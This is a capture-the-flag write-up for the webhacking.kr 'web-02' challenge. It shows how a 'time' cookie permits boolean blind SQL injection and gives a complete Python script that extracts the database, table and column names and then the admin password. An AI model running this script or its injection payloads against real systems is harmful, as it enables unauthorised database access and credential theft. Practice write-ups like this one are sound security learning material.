



## Inspection

Initial website is just a plain html - nothing special.



But if we check the source code, we can see a interesting comment.

```html
<h2>Restricted area</h2>Hello stranger. Your IP is logging...<!-- if you access admin.php i will kick your ass -->
```

Now we know, that there is a file `admin.php`, so lets access it by appending our URL with `/admin.php`.

`https://webhacking.kr/challenge/web-02/admin.php`

This website is again, a plain html, but now it also has a input field.  



After inspecting both sites more properly, we can find that there is a comment containing time.

```
<!--
2025-01-22 09:21:33
-->
```

But since the time is little bit off - and after refreshing the site it does not change, it gives us a little hint, that this challenge might be somewhat connected to this.

After checking cookies, we can see that there is a cookie for `time`. 



If we change that cookie value, then the comment with value of time also changes. After setting the cookie to 1, the comment changes to:

```html
<!--
2070-01-01 09:00:01
-->
```

And after setting it to 0, the comment changes to:

```html
<!--
2070-01-01 09:00:00
-->
```

These are hints, that this cookie is connected to a DB of some sort, this is also a hint that we are dealing with SQL injection. The hypothesis is, that if DB returns 0 (on false) or 1 (on true), then the time will be also changed.

We can test this with setting cookie to this value.

```
LENGTH((SELECT DATABASE())) = 1
```

- **LENGTH** returns a length of string
- **SELECT DATABASE()** returns us a name of the used DB
- **.. = 1** compares it to 1, this whole expression returns boolean value

After setting our `time` cookie to this expression and refreshing the site, we can see that the time has changed to:

```html
<!--
2070-01-01 09:00:00
-->
```

So the hypothesis was correct, if we inject a SQL query with boolean comparison, the cookie value will be decided by database.

## Exploitation

For exploiting this security flaw and getting the password, we need to gain:

    - length of database name
    - database name
    - length of table name
    - table name
    - length of column
    - column name
    - length of password
    - password

Getting a length of name is pretty simple, we just have to run a `for` loop that will compare actual length with value from loop.

For example, this is how we can get length of database name: 
```python
    for i in range(1, 20):
            my_cookies = dict(time='LENGTH((SELECT DATABASE())) = {}'.format(i)) # Injecting cookie
            r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies) # Sending request with our cookie
            if "2070-01-01 09:00:01" in r.content.decode(): # This is boolean 1
                database_length = i
                break
```

Gaining whole name is little bit trickier, but nothing impossible if we have correct length of name. For this, we can use `SUBSTR` function, which will be used to compare every position in length of name with every "probable" ascii character.

```python
	for i in range(database_length + 1):
		for character in string.ascii_lowercase + string.digits: # testing characters from ascii
			my_cookies = dict(time='SUBSTR((SELECT DATABASE()), {}, 1) = "{}"'.format(i, character))
			r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies)
			print("sending request\n")
			if "2070-01-01 09:00:01" in r.content.decode():
				database_name += character
				print(database_name)
				break
```

## Final solution

Final solution is getting other names and length with similiar way that was introduced in `Exploitation`.

```python
import requests
import string 
url = "https://webhacking.kr/challenge/web-02/"

session = requests.Session()

try: 
	# Getting length of database name
	database_length = 0
	for i in range(1, 20):
		my_cookies = dict(time='LENGTH((SELECT DATABASE())) = {}'.format(i))
		r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies)
		if "2070-01-01 09:00:01" in r.content.decode():
			database_length = i
			break
	print("Length of database name is {}".format(i))

	database_name = ""

	# Getting database name 
	for i in range(database_length + 1):
		for character in string.ascii_lowercase + string.digits:
			my_cookies = dict(time='SUBSTR((SELECT DATABASE()), {}, 1) = "{}"'.format(i, character))
			r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies)
			print("sending request\n")
			if "2070-01-01 09:00:01" in r.content.decode():
				database_name += character
				print(database_name)
				break
	print("Database name is {}".format(database_name))

	table_length = 0
	
	# Getting length of table name
	for i in range(1,20):
		my_cookies = dict(time='LENGTH((SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA="{}" LIMIT 0,1)) = {}'.format(database_name, i))
		r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies)
		if "2070-01-01 09:00:01" in r.content.decode():
			table_length = i
			break
	
	print("Table name length is {}".format(table_length))

	# Getting name of table
	table_name = ""
	for i in range(1, table_length+1):
		for character in string.ascii_lowercase + '_':
			my_cookies = dict(time='SUBSTR((SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = "{}" LIMIT 0,1), {}, 1) = "{}"'.format(database_name, i, character))
			r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies)
			if "2070-01-01 09:00:01" in r.content.decode():
				print(character	)
				table_name += character
				break

	print("Table name is {}".format(table_name))

	# Getting length of column
	column_length = 0;
	for i in range(1,20):
		my_cookies = dict(time='LENGTH((SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = "{}" LIMIT 0,1)) = {}'.format(table_name,i))
		r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies)
		if "2070-01-01 09:00:01" in r.content.decode():
			column_length = i
			break
	
	# Getting name of column
	column_name = ""
	for i in range(1, column_length + 1):
		for character in string.ascii_letters + string.digits + '_':
			my_cookies = dict(time='SUBSTR((SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = "{}" LIMIT 0,1),{},1) = {}'.format(table_name, i, character))
			r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies)
			if "2070-01-01 09:00:01" in r.content.decode():
				column_name += character
				print(column_name)
				break
	
	# Getting length of password
	password_length = 0
	for i in range(1,20):
		my_cookies = dict(time='LENGTH((SELECT {} FROM {} LIMIT 0,1)) = {}'.format(column_name, table_name, i))
		r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies)	
		if "2070-01-01 09:00:01" in r.content.decode():
			password_length = i
			print(password_length)
			break

	# Finally, getting password
	password = ""
	for i in range(1, password_length + 1):
		for character in string.ascii_lowercase + string.digits + '_':
			my_cookies = dict(time='SUBSTR((SELECT {} FROM {} LIMIT 0,1), {}, 1) = "{}"'.format(column_name, table_name, i, character))
			r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies)
			if "2070-01-01 09:00:01" in r.content.decode():
				password += character
				print(password)
				break
			
	print("FINAL PASSWORD: {}".format(password))
except Exception as e:
	print("Error: {}".format(e))

```
